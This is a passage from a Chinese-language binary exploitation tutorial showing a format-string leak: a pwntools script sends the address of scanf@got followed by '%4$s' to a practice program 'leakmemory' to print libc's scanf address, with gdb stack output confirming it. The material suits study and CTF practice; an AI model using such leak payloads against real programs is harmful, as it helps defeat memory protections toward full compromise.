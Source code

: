<div align=center><img src="./images/49.png"></div>

如果我们设置一个可访问的地址, 比如说`scanf@got`, 此时结果会输出`scanf`对应的地址了.

<div align=center><img src="./images/50.png"></div>

利用`pwntools`构造脚本进行调试:

```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```

当运行到第二个`printf`函数的时候, 可以看到第四个参数确实指向`scanf`的地址.

```c++
 → 0xf7615670 <printf+0>       call   0xf76ebb09 <__x86.get_pc_thunk.ax>
   ↳  0xf76ebb09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf76ebb0c <__x86.get_pc_thunk.ax+3> ret
      0xf76ebb0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf76ebb10 <__x86.get_pc_thunk.dx+3> ret
───────────────────────────────────────────────────────────────────[ stack ]────
['0xffbbf8dc', 'l8']
8
0xffbbf8dc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
0xffbbf8e0│+0x04: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e4│+0x08: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e8│+0x0c: 0x000000c2
```